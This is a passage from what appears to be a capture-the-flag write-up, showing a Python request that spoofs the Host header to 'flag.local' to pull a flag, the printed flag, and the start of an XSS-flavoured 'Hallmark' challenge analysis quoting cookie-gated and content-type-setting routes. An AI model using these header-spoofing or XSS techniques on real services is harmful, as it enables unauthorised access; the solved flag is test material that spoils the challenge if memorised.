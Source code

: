 ```python
                await send({
                    'type': 'http.response.body',
                    'body': FLAG.encode(),
                })
                return

    # [...]
```

If we set the `host` header to `flag.local`, we will retrieve the flag.

```python
import requests

url = 'https://pioneer.tailec718.ts.net/'
headers = {
    'host': 'flag.local'
}

r = requests.get(url, headers=headers)
print(r.text)
```

🏁 _actf{reaching_the_core__chapter_8}_{: .spoiler}

## Hallmark

> _Send your loved ones a Hallmark card! Maybe even send one to the admin 😳._<br>
> _https://hallmark.web.actf.co/, https://admin-bot.actf.co/hallmark_<br>
> _Attachments: dist.tar.gz_

Starting with the description of the challenge, we know what the goal is to create some cards and send them to the admin. There's the possibility to put images into them, choosing from a predefined list of 4. Otherwise, a custom text is accepted. Moreover, from app source code we see that `/flag` is accessible only from admin. XSS flavour around here, do you feel it?

```javascript
// the admin bot will be able to access this
app.get("/flag", (req, res) => {
    if (req.cookies && req.cookies.secret === secret) {
        res.send(flag);
    } else {
        res.send("you can't view this >:(");
    }
});
```

From `/card` we can create new cards, edit or print them. The server sets the right `content-type` header to print a card based on its content, which can be text or a SVG image.

```javascript
app.get("/card", (req, res) => {
    if (req.query.id && cards[req.query.id]) {
        res.setHeader("Content-Type", cards[req.query.id].type);
        res.send(cards[req.query.id].content);
    } else {
        res.send("bad id");
    }
});
```
